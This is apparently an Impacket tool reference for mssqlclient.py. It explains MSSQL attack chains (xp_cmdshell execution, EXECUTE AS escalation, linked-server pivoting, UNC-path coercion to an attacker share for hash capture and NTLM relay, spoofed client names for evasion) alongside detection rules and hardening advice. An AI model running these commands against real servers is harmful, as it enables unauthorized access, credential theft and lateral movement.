

title: "mssqlclient.py"
script: "examples/mssqlclient.py"
category: "MSSQL"
status: "Published"
protocols:
  - TDS
  - TLS
  - NTLM
  - Kerberos
ms_specs:
  - MS-TDS
  - MS-NLMP
mitre_techniques:
  - T1210
  - T1078.001
  - T1021.002
  - T1059.001
  - T1550.002
  - T1134.001
auth_types:
  - sql_auth
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/mssql
  - status/published
  - protocol/tds
  - protocol/tls
  - protocol/ntlm
  - protocol/kerberos
  - authentication/sql_auth
  - authentication/ntlm
  - authentication/kerberos
  - technique/xp_cmdshell
  - technique/execute_as
  - technique/linked_server_abuse
  - technique/mssql_coercion
  - technique/mssql_relay
  - technique/command_execution
  - mitre/T1210
  - mitre/T1078/001
  - mitre/T1021/002
  - mitre/T1059/001
  - mitre/T1550/002
  - mitre/T1134/001
aliases:
  - mssqlclient
  - impacket-mssqlclient
  - mssql_client


# mssqlclient.py

> **One line summary:** Tabular Data Stream (TDS) client for Microsoft SQL Server that provides an interactive SQL shell with support for SQL authentication, Windows NTLM authentication (including pass the hash), and Kerberos authentication, plus built in shortcut commands that automate the canonical MSSQL attack chains: `enable_xp_cmdshell` + `xp_cmdshell` for command execution as the SQL Server service account, `enum_impersonate` + `exec_as_login` for EXECUTE AS privilege escalation, and linked server enumeration with `enum_links` + `exec_at` for cross-server pivoting through linked database relationships.

| Field | Value |
|:---|:---|
| Script | `examples/mssqlclient.py` |
| Category | MSSQL |
| Status | Published |
| Primary protocols | TDS, TLS, NTLM, Kerberos |
| Primary Microsoft specifications | `[MS-TDS]`, `[MS-NLMP]` |
| MITRE ATT&CK techniques | T1210 Exploitation of Remote Services, T1078.001 Default Accounts, T1021.002 SMB/Admin Shares, T1059.001 PowerShell (via xp_cmdshell), T1550.002 Pass the Hash, T1134.001 Token Impersonation/Theft |
| Authentication types supported | SQL authentication (username+password in SQL Server), Windows NTLM (password, hash, AES key), Windows Kerberos (ccache, AES key) |
| First appearance in Impacket | Early Impacket |
| Original author | Alberto Solino (`@agsolino`) |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for authentication foundations, the four auth modes, and NTLM mechanics.
- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for Kerberos SPN context. MSSQL Kerberos authentication uses `MSSQLSvc/<hostname>:<port>` SPNs, which are the most common Kerberoasting target.
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) for NTLM relay context. MSSQL is a supported relay target, and MSSQL servers can also be coerced into authenticating to attacker endpoints.


## What it does

`mssqlclient.py` is an interactive TDS client for Microsoft SQL Server. It replaces the functionality that Windows operators would get from `sqlcmd`, `ssms`, or `osql` with a Linux compatible tool that additionally supports pass the hash authentication and includes built in shortcut commands for common MSSQL exploitation patterns.

At its core, the tool provides an interactive SQL prompt. Operators type SQL queries; the tool sends them via TDS to the server; results are displayed. Standard SQL works: `SELECT @@VERSION`, `SELECT name FROM sys.databases`, `USE master`, everything else.

On top of the basic SQL functionality, the tool includes built in shortcut commands that automate common offensive workflows:

| Shortcut | Purpose |
|:---|:---|
| `help` | Show all available built in commands. |
| `enable_xp_cmdshell` | Enable the `xp_cmdshell` extended stored procedure (requires sysadmin). |
| `disable_xp_cmdshell` | Disable `xp_cmdshell` for cleanup. |
| `xp_cmdshell <cmd>` | Execute an OS command via `xp_cmdshell`. |
| `enum_db` | List databases on the server. |
| `enum_impersonate` | Enumerate logins the current principal can impersonate via EXECUTE AS. |
| `exec_as_login <login>` | Switch execution context to the specified login. |
| `exec_as_user <user>` | Switch execution context to the specified database user. |
| `enum_logins` | List all server logins. |
| `enum_users` | List users in the current database. |
| `enum_links` | List linked servers configured on the current server. |
| `exec_at <linked_server> <query>` | Execute a query on a linked server. |
| `use_link <linked_server>` | Pivot to the linked server's execution context. |

The shortcuts matter because they compress multi step offensive workflows into single commands. `enable_xp_cmdshell` alone is the equivalent of typing four `sp_configure` calls. `enum_impersonate` runs a specific query against `sys.server_permissions` that most operators would not know offhand.

The tool also supports non interactive mode via `-command <cmd>` or `-file <path>`, useful for scripting and automation.


## Why it exists

Microsoft SQL Server is one of the most common database products in enterprise environments. It is especially common in Windows shops where licensing bundles and Active Directory integration make it the default choice. Operators encountering MSSQL instances need a client that:

- Runs on Linux attack hosts.
- Supports NTLM pass the hash authentication (which `sqlcmd` does not).
- Supports Kerberos authentication with ccache files (also limited in `sqlcmd`).
- Integrates with the rest of the Impacket toolchain for credentials obtained via [`secretsdump.py`](../03_credential_access/secretsdump.md), [`getTGT.py`](../02_kerberos_attacks/getTGT.md), and similar.

Alberto Solino built `mssqlclient.py` as part of Impacket's early example set. The implementation required writing a substantial portion of the TDS client stack in Python, which no other open source project had done before. The TDS protocol specification (`[MS-TDS]`) is long and complex; the Impacket implementation handles enough of it for practical attack scenarios even though it is not a complete TDS client.

The shortcut commands were added over time as specific attack patterns became popular. `xp_cmdshell` was the original attack primitive; EXECUTE AS impersonation and linked server abuse were added as the offensive community published research on those techniques.

The tool exists because MSSQL is a target rich environment. SQL Server service accounts frequently have excessive privileges. Linked server configurations cross security boundaries. EXECUTE AS grants are delegated carelessly in many environments. Each of these creates an attack path that `mssqlclient.py` makes exploitable from Linux.


## The protocol theory

MSSQL networking uses the Tabular Data Stream protocol, specified in `[MS-TDS]`. This section covers what is operationally relevant.

### TDS overview

TDS is Microsoft's application layer protocol for SQL Server. It runs over TCP (default port 1433, though servers can be configured to use any port) and supports TLS for encryption. The protocol handles:

- Initial connection negotiation (PRELOGIN).
- Authentication (LOGIN7, possibly followed by SSPI negotiation for Windows auth).
- Query submission (SQL_BATCH for plain text, RPC for stored procedures).
- Result transmission (tabular row sets, return values, output parameters).
- Server notifications (environment changes, info messages, errors).
- Session state management (transactions, isolation levels).

For an attacker's purposes, the first three phases are what matters. After authentication succeeds, subsequent queries are plain SQL_BATCH or RPC messages that the server executes.

### The three authentication modes

MSSQL supports three distinct authentication modes, and any given instance may support one or more:

**SQL Server authentication.** Credentials stored in SQL Server's master database. The user provides a login name (for example, `sa`) and password. Authentication happens entirely within SQL Server without any Windows/AD involvement. Enabled via "Mixed Mode" authentication during SQL Server installation.

**Windows authentication with NTLM.** The client authenticates using a Windows account, and SQL Server validates the credentials via NTLM. This is the most common authentication mode in domain joined environments. In TDS, NTLM is negotiated via SSPI (Security Support Provider Interface) embedded in the LOGIN7 message. `mssqlclient.py` supports pass the hash here, which no Microsoft tool natively supports.

**Windows authentication with Kerberos.** Same as NTLM authentication but using Kerberos instead. The client obtains a ticket for the SPN `MSSQLSvc/<hostname>:<port>` or `MSSQLSvc/<hostname>` and submits it. `mssqlclient.py` supports both ccache based (`-k -no-pass`) and AES key based (`-aesKey`) Kerberos authentication.

The `-windows-auth` flag on `mssqlclient.py` distinguishes SQL auth from Windows auth. Without it, the tool defaults to SQL authentication (treating the provided username as a SQL login). With it, the tool uses Windows authentication (treating the provided credentials as a domain user).

### TLS and the forced encryption policy

Modern SQL Server installations typically force TLS encryption on the connection. The LOGIN7 message (containing credentials) is always encrypted, but the rest of the conversation may or may not be depending on the server's `Force Encryption` setting.

For an attacker's purposes:

- TLS means packet captures of MSSQL traffic will show encrypted TDS payloads after the handshake.
- TLS does not affect `mssqlclient.py`'s functionality; the tool negotiates TLS automatically.
- Certificate validation is typically bypassed (SQL Server commonly uses self signed certificates).

### The SQL Server service account: the crown jewel

When any command executes via `xp_cmdshell` or similar primitives, it runs with the privileges of the SQL Server service account. This account is one of:

- **`NT SERVICE\MSSQLSERVER`** (virtual account). The modern default. Limited privileges. Cannot authenticate to remote resources as itself (though the computer account can).
- **`NT AUTHORITY\NETWORK SERVICE`**. Legacy default. Similar limited privileges.
- **`NT AUTHORITY\LOCAL SYSTEM`**. Very privileged, but Microsoft has advised against this for years.
- **A domain service account**. Common in enterprise deployments where SQL Server needs to authenticate to other resources. The privileges depend on the specific account.

The last case is the most dangerous. Enterprise SQL deployments commonly use domain service accounts so that SQL Server can:

- Authenticate to file shares for backup operations.
- Use linked servers with Windows authentication.
- Participate in Active Directory groups for permission management.

These same capabilities let an attacker who escalates to xp_cmdshell execution benefit from the service account's privileges. If the service account is in Domain Admins (which happens more often than it should), xp_cmdshell execution is immediate full domain compromise.

This is why attackers target MSSQL aggressively: the service account privileges are often poorly scoped, and exploitation of the SQL layer cascades into domain privileges.

### xp_cmdshell: the primary RCE primitive

`xp_cmdshell` is an extended stored procedure included with SQL Server that executes arbitrary OS commands. It requires sysadmin role to enable or invoke.

The procedure has been present since early SQL Server versions. It is disabled by default in all modern versions. Enabling requires:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once enabled, execution is:

```sql
EXEC xp_cmdshell 'whoami';
```

The command runs as the SQL Server service account. Output is returned as a result set.

`mssqlclient.py` automates both the enablement and invocation via the `enable_xp_cmdshell` and `xp_cmdshell <cmd>` shortcuts. The `disable_xp_cmdshell` shortcut reverses the enablement for cleanup.

### EXECUTE AS and impersonation

SQL Server supports a context switching primitive called EXECUTE AS. A login with IMPERSONATE permission on another login can temporarily execute queries as that login:

```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;  -- Now returns 'sa'
-- Perform sysadmin-only operations
REVERT;
```

This is a legitimate SQL Server feature used for privilege delegation in complex schemas. It becomes an attack primitive when:

- A lower privileged account has IMPERSONATE on a higher privileged one.
- The higher privileged account has sysadmin role.
- The attacker can use EXECUTE AS to gain sysadmin, then enable xp_cmdshell.

The `sys.server_permissions` view reveals IMPERSONATE grants:

```sql
SELECT grantor_principal.name AS grantor,
       grantee_principal.name AS grantee,
       permission_name
FROM sys.server_permissions perm
JOIN sys.server_principals grantor_principal
  ON perm.grantor_principal_id = grantor_principal.principal_id
JOIN sys.server_principals grantee_principal
  ON perm.grantee_principal_id = grantee_principal.principal_id
WHERE permission_name = 'IMPERSONATE';
```

`mssqlclient.py`'s `enum_impersonate` shortcut runs this query. `exec_as_login <target>` performs the EXECUTE AS operation. The combination is often the path from non sysadmin login to sysadmin.

### Linked servers

SQL Server supports linked server configurations that allow queries to span multiple database instances. The typical use case: a primary application database that joins against a separate reporting warehouse.

When a linked server is configured, the link includes either:

- A fixed credential used for all queries through the link (a SQL login or Windows account).
- Pass through credentials (the client's credentials are reused).

The first case is the attack opportunity. Fixed credential linked servers may have higher privileges on the target than the current user has on the source. If the current user can `EXEC` queries through the link, they effectively escalate to whatever privileges the link holds on the remote instance.

The attack pattern: discover linked servers via `SELECT * FROM sys.servers`, then execute queries through them:

```sql
-- Using OPENQUERY
SELECT * FROM OPENQUERY([LinkedServer], 'SELECT @@VERSION');

-- Using EXEC AT
EXEC ('SELECT @@VERSION') AT [LinkedServer];
```

If the linked server is sysadmin on the target, the attack chain extends: enable xp_cmdshell on the target via the link and execute commands there. Chains of linked servers can span multiple environments, providing lateral movement across database servers that would otherwise be network segmented.

`mssqlclient.py`'s `enum_links` lists configured linked servers. `exec_at <server> <query>` executes a query on a linked server. `use_link <server>` switches the interactive context so subsequent queries go through the link.

### MSSQL UNC path coercion

MSSQL includes several extended stored procedures that take file paths and access them, which becomes an attacker primitive when the path is a UNC path pointing to an attacker server:

- **`xp_dirtree '\\attacker\share'`**. Lists contents of the path; triggers authentication from SQL Server service account to the attacker's share.
- **`xp_fileexist '\\attacker\share\file'`**. Checks if a file exists; triggers authentication.
- **`xp_subdirs`**. Similar to `xp_dirtree`.

These procedures are callable by any user with `db_owner` or above. They do not require sysadmin. They can therefore be abused by lower privileged MSSQL users.

When the SQL Server service account authenticates to the attacker's share:

- Its NetNTLMv2 challenge response can be captured by [`smbserver.py`](../05_smb_tools/smbserver.md) for offline cracking.
- Its authentication can be relayed to another target via [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md).
- If the service account is a domain account with interesting privileges elsewhere, the relay lands on a valuable target.

This is a powerful attack primitive because it works from within MSSQL with minimal privileges and produces an authentication that can be relayed or captured.

### MSSQL as an NTLM relay target

MSSQL servers accept NTLM authentication, which means they can be targets of [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md). The `-t mssql://server` target format tells ntlmrelayx to relay captured NTLM authentications to the MSSQL server.

When the relay succeeds, the attacker authenticates to the MSSQL server as the relayed principal. From there, all the standard MSSQL attack primitives apply (xp_cmdshell, EXECUTE AS, linked servers).

MSSQL NTLM relay particularly matters when:

- The MSSQL server enforces Windows authentication only (no SQL auth).
- The attacker does not have valid Windows credentials directly.
- A coerced authentication from a relevant principal is feasible (PetitPotam against the SQL host, for example).

### The SPN and Kerberoasting connection

SQL Server service accounts have SPNs of the form `MSSQLSvc/<hostname>:<port>` or `MSSQLSvc/<hostname>` registered in Active Directory. These SPNs are the most common Kerberoasting targets because:

- They exist in essentially every AD environment with SQL Server.
- The SQL Server service account passwords are often weak or reused.
- The accounts are frequently overprivileged (as discussed above).

See [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for the Kerberoasting attack primitive. A cracked `MSSQLSvc` ticket gives the attacker the cleartext password of the SQL Server service account, which can then be used to authenticate as that account to SQL Server (via Kerberos) and to any other resource the account has access to.


## How the tool works internally

The script is mid sized. The high level flow:

1. **Argument parsing.** Target string, `-db`, `-windows-auth`, authentication flags, `-command`, `-file`, `-host-name`, `-app-name`, and connection flags.

2. **Target resolution.** Parses the target into server address and (optionally) database instance name. Resolves hostname via DNS if not provided as IP.

3. **MSSQL connection setup.** Instantiates `impacket.tds.MSSQL` with the target, port, and the optional `workstation_id` and `application_name` values that appear in the LOGIN7 message.

4. **Authentication.**
    - For SQL auth: calls `ms_sql.login(db, username, password, domain, hashes, windows_auth=False)`.
    - For Windows NTLM auth: calls `ms_sql.login(db, username, password, domain, hashes, windows_auth=True)`.
    - For Kerberos auth: calls `ms_sql.kerberosLogin(db, username, password, domain, hashes, aesKey, kdcHost)`.
    - Under the hood, these methods build the LOGIN7 message, embed the appropriate authentication blob, negotiate TLS if required, and exchange the authentication messages.

5. **Connection environment output.** After successful login, the server sends ENVCHANGE messages reporting the current database, language, and packet size. The tool logs these.

6. **Shell handoff.** If `-command` or `-file` was specified, executes the commands non interactively. Otherwise, drops into an interactive prompt.

7. **Interactive shell.** The tool reads queries, classifies them as SQL queries or built in shortcut commands, and dispatches accordingly:
    - SQL queries: sent via `sql_query` which produces a SQL_BATCH message with the query text. Results are fetched and displayed as tabular output.
    - Shortcut commands: translated to specific SQL queries (for `enum_links`, `enum_impersonate`, etc.) or to sequences of queries (for `enable_xp_cmdshell` which runs three `sp_configure` calls).

8. **Output formatting.** Result sets are displayed in a simple tabular format with column headers. Multiple result sets (from batch queries) are displayed sequentially.

9. **Error handling.** SQL errors from the server are displayed with the full error information (error number, severity, state, line, procedure, text). This helps with troubleshooting specific attack queries that fail due to permissions.

10. **Logoff.** On shell exit, the tool performs a clean TDS logoff and closes the socket.


## Authentication options

### SQL authentication (default without -windows-auth)

```bash
mssqlclient.py sa:'P@ssw0rd'@10.0.0.50
```

Uses SQL Server's own authentication mechanism. The `sa` user is the SQL Server equivalent of `root` and exists on every SQL Server instance (though it may be disabled). Mixed Mode must be enabled on the server for SQL auth to work.

### Windows authentication with password

```bash
mssqlclient.py -windows-auth CORP.LOCAL/user:'P@ss'@10.0.0.50
```

Authenticates using the Windows account via NTLM. Requires the account to have SQL Server login permissions (either directly or via AD group membership mapped to a SQL login).

### Windows authentication with NT hash (pass the hash)

```bash
mssqlclient.py -windows-auth -hashes :<nthash> CORP.LOCAL/user@10.0.0.50
```

Pass the hash over TDS. This is one of the features that makes `mssqlclient.py` uniquely valuable; native Microsoft tools do not support it.

### Windows authentication with Kerberos ccache

```bash
export KRB5CCNAME=user.ccache
mssqlclient.py -k -no-pass -dc-ip 10.0.0.10 CORP.LOCAL/user@10.0.0.50
```

Kerberos authentication using an existing ccache. The SPN requested is typically `MSSQLSvc/<hostname>:<port>`.

### Windows authentication with AES key

```bash
mssqlclient.py -windows-auth -aesKey <hex> -k -no-pass \
  -dc-ip 10.0.0.10 CORP.LOCAL/user@10.0.0.50
```

Pass the key authentication, bypassing the need for password or ccache.

### Using a forged Service Ticket

```bash
# After forging a ticket with getST.py:
export KRB5CCNAME=Administrator@mssqlsvc_10.0.0.50@CORP.LOCAL.ccache
mssqlclient.py -k -no-pass -dc-ip 10.0.0.10 CORP.LOCAL/Administrator@10.0.0.50
```

S4U forged tickets work normally. The SPN in the forged ticket should be `MSSQLSvc/<hostname>:<port>` or `MSSQLSvc/<hostname>`.

### Minimum required privileges

- For basic connection: any valid SQL login.
- For `xp_cmdshell`: sysadmin role (or a path to sysadmin via EXECUTE AS).
- For `xp_dirtree` / `xp_fileexist` coercion: typically `db_owner` on at least one database, or equivalent privileges on `master`.
- For linked server queries: the current login must have the appropriate permissions on the linked server configuration.


## Practical usage

### Basic interactive SQL shell

```bash
mssqlclient.py -windows-auth CORP.LOCAL/user:'P@ss'@10.0.0.50
```

Drops into the SQL shell. Try basic queries:

```sql
SELECT @@VERSION;
SELECT name FROM sys.databases;
SELECT SYSTEM_USER;
```

### Enable and use xp_cmdshell

```bash
mssqlclient.py -windows-auth CORP.LOCAL/user:'P@ss'@10.0.0.50
```

Then in the shell:

```text
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> xp_cmdshell powershell -e <base64_payload>
```

The first shortcut enables xp_cmdshell (requires sysadmin). The second and third execute OS commands as the SQL Server service account. The base64 encoded PowerShell command is the standard payload pattern.

### Enumerate impersonation targets and escalate

```text
SQL> enum_impersonate
# Shows logins the current principal can IMPERSONATE
SQL> exec_as_login sa
# Switch context to sa
SQL> SELECT SYSTEM_USER;
# Returns 'sa' confirming the switch
SQL> enable_xp_cmdshell
# Now succeeds because we are sysadmin
SQL> xp_cmdshell whoami
```

The canonical EXECUTE AS escalation chain. Starts with a lower privileged login that has IMPERSONATE on `sa` (a common misconfiguration), ends with xp_cmdshell execution as the service account.

### Enumerate and abuse linked servers

```text
SQL> enum_links
# Lists linked servers
SQL> exec_at SQLSERVER2 'select @@VERSION'
# Executes on the linked server
SQL> exec_at SQLSERVER2 'exec sp_configure ''xp_cmdshell'',1; RECONFIGURE'
# Enable xp_cmdshell on the linked server (requires the link to be sysadmin)
SQL> exec_at SQLSERVER2 'xp_cmdshell ''whoami'''
# Execute command on the linked server
```

The nested quoting is necessary because the query is a string passed through EXEC AT. Operators typically work around this by building the query in a variable:

```sql
DECLARE @query VARCHAR(8000)
SET @query = 'xp_cmdshell ''whoami'''
EXEC (@query) AT [SQLSERVER2]
```

### MSSQL UNC coercion for hash capture

```bash
# Terminal 1: start smbserver.py
sudo smbserver.py -smb2support CAPTURE /tmp/capture

# Terminal 2: connect to MSSQL and trigger authentication
mssqlclient.py -windows-auth CORP.LOCAL/lowpriv:'P@ss'@10.0.0.50
```

In the shell:

```sql
EXEC xp_dirtree '\\attacker-ip\CAPTURE', 1, 1
```

The SQL Server service account attempts to authenticate to the attacker's SMB server. The NetNTLMv2 response is captured in the smbserver output. Crack offline with hashcat (see [`smbserver.py`](../05_smb_tools/smbserver.md)).

### MSSQL UNC coercion for relay

```bash
# Terminal 1: ntlmrelayx for LDAPS with RBCD
ntlmrelayx.py -t ldaps://dc01.corp.local --delegate-access -smb2support

# Terminal 2: mssqlclient
mssqlclient.py -windows-auth CORP.LOCAL/lowpriv:'P@ss'@10.0.0.50
```

In the shell:

```sql
EXEC xp_dirtree '\\attacker-ip\relay', 1, 1
```

The SQL Server service account authentication gets relayed to LDAPS for the RBCD chain. This is especially powerful when the service account is a domain account with interesting privileges.

### Non interactive command execution

```bash
mssqlclient.py -windows-auth CORP.LOCAL/user:'P@ss'@10.0.0.50 \
  -command "enable_xp_cmdshell" "xp_cmdshell whoami" "disable_xp_cmdshell"
```

Runs the three commands in sequence and exits. Useful for scripted exploitation.

### Executing queries from a file

```bash
mssqlclient.py -windows-auth CORP.LOCAL/user:'P@ss'@10.0.0.50 -file queries.sql
```

The file contains one query or command per line. Good for complex multi query exploitation scripts.

### Blending in with custom host and app names

```bash
mssqlclient.py -windows-auth --host-name 'CORP-APPSRV-01' --app-name 'Microsoft SQL Server Management Studio' \
  CORP.LOCAL/user:'P@ss'@10.0.0.50
```

The `HostName` and `AppName` properties appear in the LOGIN7 message and are logged by SQL Server in the `sys.dm_exec_sessions` view and SQL Server error logs. Default values reveal the tool (`HostName` defaults to the Linux hostname, `AppName` defaults to `core`). Customizing these blends into legitimate client patterns.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | Domain/username[:password]@target. |
| `-db <n>` | Target database instance. |
| `-windows-auth` | Use Windows authentication. Without this, SQL auth is used. |
| `-port <port>` | Target port (default 1433). |
| `-show` | Show queries being sent (verbose). |
| `-command <cmd>` | Commands to execute non interactively. Can be specified multiple times. |
| `-file <path>` | File with commands to execute. |
| `--host-name <n>` | HostName property in LOGIN7. |
| `--app-name <n>` | AppName property in LOGIN7. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-target-ip` | Explicit DC or target IP. |
| `-debug` | Debug output. |
| `-ts` | Timestamp logging. |


## What it looks like on the wire

TDS traffic on port 1433 (or custom configured port). The conversation has distinctive patterns.

### PRELOGIN phase

- TCP handshake to port 1433.
- Client sends PRELOGIN packet with supported features (version, encryption capability, MARS support).
- Server responds with PRELOGIN packet indicating its version and whether TLS is required.

### TLS handshake (if required)

- Standard TLS 1.0-1.3 handshake depending on server capabilities.
- Certificate typically self signed; client bypasses validation.
- After handshake, subsequent TDS packets are encrypted.

### LOGIN7 phase

- Client sends LOGIN7 containing:
    - Client information (hostname, app name, server, library name).
    - Authentication blob (SQL login + hashed password for SQL auth; SSPI blob for Windows auth; GSS blob for Kerberos).
- For Windows auth, this begins the NTLM/Kerberos exchange embedded in TDS packets.
- Server responds with ENVCHANGE tokens, INFO messages, and finally LOGINACK on success.

### Query phase

- Client sends SQL_BATCH packets containing query text.
- Server responds with one or more result sets (ROWCOL, ROW tokens).
- Error tokens indicate server side errors.

### Wireshark filters

```text
tds                                       # all TDS
tds.type == 0x01                          # SQL_BATCH (queries)
tds.type == 0x10                          # LOGIN7 (authentication)
tds.type == 0x12                          # PRELOGIN
tcp.port == 1433                          # default MSSQL port
```

TDS is encrypted when TLS is active, so specific query content is not visible to network observers unless the encryption is stripped. Metadata (connection source, timing, packet sizes) remains observable.


## What it looks like in logs

SQL Server has its own logging infrastructure separate from Windows event logs. Several sources matter.

### SQL Server error log

Located at `%PROGRAMFILES%\Microsoft SQL Server\MSSQL<version>.<instance>\MSSQL\Log\ERRORLOG`. Contains:

- **Login attempts.** Every successful and failed login produces an entry with the username, source host, and authentication method. An example failed login:

```text
2026-04-19 14:00:05.23 Logon       Error: 18456, Severity: 14, State: 5.
2026-04-19 14:00:05.23 Logon       Login failed for user 'attacker'. Reason: Could not find a login matching the name provided. [CLIENT: 10.0.0.42]
```

- **sp_configure changes.** Enabling xp_cmdshell produces log entries:

```text
2026-04-19 14:00:12.45 spid54      Configuration option 'show advanced options' changed from 0 to 1.
2026-04-19 14:00:12.45 spid54      Configuration option 'xp_cmdshell' changed from 0 to 1.
```

These are diagnostic: legitimate production environments rarely change xp_cmdshell configuration.

### SQL Server Extended Events (XE)

The modern successor to SQL Profiler. Can capture:

- Login events with full context (client address, application name, host name).
- Statement executions including xp_cmdshell calls.
- Configuration changes.
- EXECUTE AS usage.

Extended Events requires explicit configuration but provides very rich data when configured. The `system_health` session, enabled by default, captures some relevant events.

### Windows Security log (for Windows auth)

When SQL Server uses Windows authentication, successful and failed logins produce Security log events on the SQL Server host:

- **4624** for successful logons (includes SQL Server service reception of the Windows authentication).
- **4625** for failed logons.

These events are the same as any NTLM or Kerberos authentication event; they do not specifically identify SQL Server as the target.

### Process creation (for xp_cmdshell)

When xp_cmdshell executes, the spawned process is visible in Windows Security event 4688 or Sysmon event 1:

| Field | Value |
|:---|:---|
| NewProcessName | Whatever was specified (`cmd.exe`, `powershell.exe`, custom binary). |
| ParentProcessName | `sqlservr.exe`. |
| CommandLine | The command specified to xp_cmdshell. |
| AccountName | The SQL Server service account. |

**`sqlservr.exe` as a parent process spawning cmd or powershell is the highest fidelity detection signal for xp_cmdshell exploitation.** Legitimate SQL Server deployments essentially never spawn cmd from sqlservr. The sole exception is some very specific backup or ETL tooling, which is environment specific.

### Starter Sigma rules

```yaml
title: SQL Server Spawning Command Processor
logsource:
  product: windows
  category: process_creation
detection:
  selection:
    ParentImage|endswith: 'sqlservr.exe'
    Image|endswith:
      - 'cmd.exe'
      - 'powershell.exe'
      - 'pwsh.exe'
      - 'wscript.exe'
      - 'cscript.exe'
  condition: selection
level: high
```

Catches xp_cmdshell exploitation regardless of the specific command. Highest fidelity rule for MSSQL abuse.

```yaml
title: xp_cmdshell Enabled
logsource:
  product: mssql
  category: application
detection:
  selection:
    EventText|contains: "Configuration option 'xp_cmdshell' changed from 0 to 1"
  condition: selection
level: high
```

Catches the enable step. Many production environments keep xp_cmdshell permanently disabled; any enablement is investigation worthy.

```yaml
title: MSSQL UNC Path Access to External Share
logsource:
  product: windows
  category: network_connection
detection:
  selection:
    Image|endswith: 'sqlservr.exe'
    DestinationPort:
      - 445
      - 139
  filter_internal:
    DestinationIp|startswith:
      - '10.'
      - '172.'
      - '192.168.'
  condition: selection and not filter_internal
level: high
```

Catches xp_dirtree / xp_fileexist coercion to external shares. Requires Sysmon with network connection logging.


## Detection and defense

### Detection opportunities

**sqlservr.exe spawning cmd or powershell.** The Sigma rule above. The single most effective signal for xp_cmdshell based attacks.

**xp_cmdshell configuration changes.** Legitimate environments rarely change this setting. Alert on any configuration flip.

**Unusual authentication sources.** SQL Server receiving logins from IP addresses outside the expected application tier is suspicious. Application databases typically see connections only from their paired application servers; developer or admin connections come from specific workstation subnets.

**Failed logon patterns.** Brute force attacks against SQL auth or Windows auth produce recognizable failed logon sequences. Rate of failures from a specific source, lockout events.

**Linked server query activity.** Unusual linked server usage, especially chained queries traversing multiple links, is suspicious. Environment specific baseline required.

**MSSQL service account authenticating to unusual destinations.** The SQL Server service account should primarily authenticate to the DC (for ticket operations) and to specific backup/ETL targets. Authentication to workstations or attacker IPs is diagnostic of UNC coercion.

### Preventive controls

- **Disable xp_cmdshell.** Default since SQL Server 2005. Do not enable unless genuinely required. If legitimately required, restrict the sysadmin role to the absolute minimum necessary.
- **Use Windows authentication only (disable Mixed Mode).** Eliminates SQL auth brute force and forces all authentications through Kerberos/NTLM which have better detection coverage.
- **Least privilege for the SQL Server service account.** Do not run SQL Server as Domain Admin or as any other overprivileged account. Use virtual accounts or managed service accounts (MSAs) where possible. Regularly audit what the service account has access to.
- **Strong passwords for the service account.** The `MSSQLSvc` SPN makes this account a permanent Kerberoasting target. Ensure the password is long and random to defeat offline cracking.
- **Monitor sp_configure changes.** As noted above. Configuration modifications to security sensitive settings should be alerted on.
- **Review impersonation grants.** `sys.server_permissions` with `permission_name = 'IMPERSONATE'` shows every active grant. Remove unnecessary ones; tightly restrict remaining ones.
- **Audit linked server configurations.** Remove unused links. For required links, use pass through credentials where feasible rather than fixed sysadmin credentials.
- **Network segmentation.** SQL Server hosts should be in restricted network zones. Block outbound SMB from SQL Server hosts (except to specific authorized destinations) to defeat UNC coercion to external shares.
- **Enable SQL Server auditing (SQL Audit).** Built into SQL Server. Capture authentication events, configuration changes, and sensitive object access.
- **Deploy Microsoft Defender for SQL or equivalent.** Provides behavioral detection for SQL Server attacks specifically.


## Related tools and attack chains

`mssqlclient.py` is the first article in the MSSQL category. Other stubs in the category:

- **`mssqlinstance.py`**. Queries SQL Server Browser on UDP 1434 to enumerate SQL Server instances on a target. Useful for discovering instance names and ports when the default 1433 is not used.
- **`checkMSSQLStatus.md`** (listed as a stub). May not be an official Impacket tool; could be a reference placeholder.

### Related Impacket tools

- [`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md) for Kerberoasting MSSQL service accounts. The `MSSQLSvc` SPN is the most common Kerberoasting target.
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) with `-t mssql://` for relaying NTLM authentications to MSSQL servers.
- [`smbserver.py`](../05_smb_tools/smbserver.md) for receiving MSSQL UNC path authentications for hash capture.
